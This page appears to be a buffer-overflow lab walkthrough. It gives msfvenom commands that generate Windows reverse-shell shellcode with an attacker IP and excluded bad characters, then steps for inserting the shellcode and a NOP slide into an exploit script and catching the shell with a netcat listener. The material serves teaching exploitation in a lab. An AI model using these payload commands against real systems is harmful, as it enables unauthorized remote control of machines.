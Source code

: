 ```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.6.111.208 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```



<figure><img src="../../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

* Copy the shell code only
* Open <mark style="color:yellow;">01exploit.py</mark>

<figure><img src="../../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

* Save the file

## Prepend NOPs

* Since we used an encoder with msfvenom, we need to add some space in memory for the payload to be able to unpack
* This is also called a "NOP slide"
* Open <mark style="color:yellow;">01exploit.py</mark>
* We need to modify the padding value

<figure><img src="../../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

* Save the file once it is added

## Exploitation

* Start a netcat listener on the port specified in the payload
* Restart the program
* Select the play button
* Go back to your exploit and run it
* You should have a shell

<figure><img src="../../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
